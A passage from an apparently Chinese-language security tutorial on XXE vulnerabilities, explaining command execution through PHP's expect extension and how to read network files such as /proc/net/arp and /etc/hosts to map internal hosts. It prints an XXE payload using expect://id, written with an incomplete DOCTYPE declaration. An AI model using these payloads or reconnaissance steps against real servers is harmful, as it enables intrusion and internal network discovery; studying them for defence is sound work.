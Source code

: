 ```php
<message>any text</message>
```

## 1.4、命令执行

目标环境的特殊配置导致XML与某些命令操作关联，从而造成命令执行的可能性。如果目标内部的PHP环境中安装了expect扩展，并且该扩展被加载到了处理XML的内部应用程序上，就可以利用expect来执行系统命令。

Expect扩展是一个用于自动化交互的套件，它可以在执行命令和程序时，模拟用户输入指定的字符串，以实现交互通信。如果能够成功利用这个扩展，就可以通过构造恶意的XML数据，触发命令执行，进而执行任意系统命令。

```php
<?xml version="1.0" encoding="utf-8"?>

<!ENTITY xxe SYSTEM "expect://id" >]>
<root>
<name>&xxe;</name>
</root>
```

![image.png](assets/1700812438-102ea11f0465faab92d7c62b50f6382e.png)

## 1.5、内网主机探测

当我们成功利用了XXE漏洞，下一步就是尝试读取服务器的网络配置文件，以获取内网的相关信息。/etc/network/interfaces、/proc/net/arp和/etc/hosts都是可能包含有用信息的文件。

```php
/etc/network/interfaces：这个文件通常包含服务器的网络接口配置信息，您可以从中找到内网的IP地址和网段。

/proc/net/arp：这个文件保存了地址解析协议（ARP）的缓存表，您可以从中获取到与内网中其他主机进行通信的主机的MAC地址和IP地址。

/etc/hosts：这个文件是Linux系统上的主机文件，用于IP地址和域名的快速解析。您可以查看文件中是否有内网主机的映射关系。
```
